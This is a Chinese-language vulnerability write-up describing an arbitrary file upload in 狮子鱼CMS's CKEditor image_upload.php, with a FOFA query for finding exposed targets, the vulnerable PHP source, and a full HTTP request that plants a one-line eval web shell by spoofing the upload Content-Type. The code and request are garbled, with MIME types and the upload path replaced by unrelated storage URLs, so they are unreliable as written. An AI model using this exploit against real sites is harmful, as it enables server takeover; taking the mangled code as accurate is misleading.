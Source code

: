 # 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

```
狮子鱼CMS
```

## FOFA

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170928345.png)

漏洞文件为 CK编辑器的 image_upload.php

```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```

其中使用 **Content-Type:** [**http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif**](http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif)  即可绕过上传PHP文件

```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST[test]);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170928692.png)



访问返回的文件路径

```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170928744.png)